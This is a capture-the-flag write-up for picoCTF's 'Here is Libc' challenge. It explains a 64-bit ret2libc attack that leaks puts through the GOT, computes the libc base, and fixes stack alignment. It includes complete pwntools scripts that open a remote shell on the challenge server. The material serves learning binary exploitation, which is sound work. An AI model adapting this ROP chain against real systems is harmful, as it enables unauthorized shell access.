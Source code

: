 # CTF Write-Up: [Here is Libc][Binary Exploitation]

## Description
>I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 1774


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{1_<3_sm4sh_st4cking_f2ac531bbb3a68ed}`)

## Difficulty
- **Difficulty Level:** hard

## Tools Used
- gdb
- Youtube

## Write-Up

### Preparatory Phase

The first course of action was running `checksec vuln` to obtain the binary architecture and its protections. We find out that it is a 64-bit architecture with `NX` enabled which suggests that we cannot run our own shellcode on the stack. In conjuction with the name of the challenge we will need to likely use the `libc` file to obtain shell access.  We must also note that `Partial RELRO` is on, which means we can still write to the `GOT`.



Running the binary locally under `gdb` presented issues. I searched up the problem on StackOverflow and ran `sudo ldconfig -v`, but it didn't seem to work. 

```
Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion `sym != NULL' failed!
```

I thus then manually decided to obtain the offset using a manual binary search method. I eventually found the minimum value it core dumped was at 136 bytes deep.


![alt text](images/image.png)
> Found offset to be exactly 136 bytes

Conducting static analysis using `gdb` I was able to print the functions present in the program. We must note the `puts@plt` which will be useful in leaking the address of `puts`. 

![alt text](images/image-1.png)

My first aim is to leak the address of `puts` using one **ROP chain.** Then using this information I am able to obtain the base address for `libc` and obtain the addresses for `system` and `/bin/sh` to form our **second ROP chain** which will form the main punching power of our payload.

### Attack Phase
Using the formula from above I can begin my attack which is broken down into two phases. Reference: 
1. Obtain `libc` base
2. Exploit

To obtain the `libc` base we can take advantage of the dynamically linked standard C functions such as `puts`. What we want to do is push the `GOT` address of `puts` as an argument into the `puts` function (Mouth-full) so then the program will print the address of `puts`. We then need a pointer back to `main` to gain shell access.

Since `rdi` is the first argument to be pushed onto the stack via 64-bit calling conventions we need to find the gadget associated with `rdi`. We do this via `ROPgadget --binary vuln | grep rdi`

![alt text](images/image-2.png)

Using this knowledge and the fact that pwntools has inbuilt functionality to deal with ELF files using the documentation [here](https://docs.pwntools.com/en/stable/elf/elf.html),  we were able to leak
``` py
#!usr/bin/python3

from pwn import *
import sys

local = False
host = 'mercury.picoctf.net'
port = 1774
program = './vuln'

vuln_elf = ELF("./vuln")
libc = ELF('libc.so.6')
offset = 136

if local:
    io = process(program)
else:
    io = remote(host, port)

padding = b'A'*offset
pop_rdi = p64(0x0000000000400913)
puts_got = p64(vuln_elf.got['puts'])
puts_plt = p64(vuln_elf.plt['puts'])

## Note this only works because PIE and ASLR are disabled for the binary
main_addr = p64(vuln_elf.symbols['main'])


rop1_chain = [
    padding,
    pop_rdi,
    puts_got,
    puts_plt,
    main_addr    
]

rop1 = b''.join(rop1_chain)
io.sendline(rop1)
io.recvline()
io.recvline()
resp = io.recvline()
leaked_puts = resp
print(leaked_puts)
```

Now we have leaked where `puts` is and have returned back to the start of main is. We then can obtain the offset for libc and get our **Bonnie and Clyde** (`system` and `'/bin/sh'`) using the below formula.
```
libc_base = leaked_puts - libc.symbols['puts']
bin_sh = next(libc.search(b"/bin/sh")) + libc_base
system = libc.symbols['system'] + libc_base

```

The payload should simply be `offset + pop_rdi_gadget + bin_sh + system`, but didn't seem to work. Upon further investigation it appears my stack was not aligned properly and needed a `ret` instruction prior to calling `system`. 
### Final Solution/Payload

<details><summary> Dropdown for code </bold> </summary>
<br>

``` py
#!usr/bin/python3

from pwn import *
from Cryptodome.Util.number import bytes_to_long
import sys

local = False
host = 'mercury.picoctf.net'
port = 1774
program = './vuln'

vuln_elf = ELF("./vuln")
libc = ELF('libc.so.6')
offset = 136

if local:
    io = process(program)
else:
    io = remote(host, port)

padding = b'A'*offset
pop_rdi = p64(0x0000000000400913)
ret = p64(0x000000000040052e)
puts_got = p64(vuln_elf.got['puts'])
puts_plt = p64(vuln_elf.plt['puts'])
main_addr = p64(vuln_elf.symbols['main'])


rop1_chain = [
    padding,
    pop_rdi,
    puts_got,
    puts_plt,
    main_addr    
]

rop1 = b''.join(rop1_chain)
io.sendline(rop1)
io.recvline()
io.recvline()
resp = io.recvline().strip()
print(f"Leaked puts: {resp}")
leaked_puts_addy = u64(resp.ljust(8, b'\x00'))

libc.address = leaked_puts_addy - libc.symbols['puts']

print(f"Base of libc is {hex(libc.address)}")
bin_sh = p64(next(libc.search(b'/bin/sh')))
system_addy = p64(libc.symbols['system'])

rop2_chain = [
    padding,
    ret,
    pop_rdi,
    bin_sh,
    system_addy
]
payload = b''.join(rop2_chain)
io.clean()
io.sendline(payload)
io.interactive()



```
</details>

![alt text](images/image-3.png)

### Lessons Learnt
1. Within the COMP6841 wargames, there was a `ret2libc` exercise but it leaked the address of a known function explicitly. However, this time this exercise requires two payloads - one to leak an function address in order to obtain the `libc base` and a second payload to gain shell access. Reading [this](https://tc.gts3.org/cs6265/tut/tut06-01-rop.html) assisted in my learning.

2. It was vital that for each binary exploitation challenge I must check the architecture via `file` or `checksec`. The way we approach 32-bit and 64-bit exploitations is different due to their differences in calling conventions. I attempted to do this challenge with the same mindset as I employed with the COMP6841 Wargames `ret2libc` but it didn't work and it wasted hours of my time :(.

1. Stack alignment is paramount on `x64` architectures https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment
## References

- https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html
- https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment
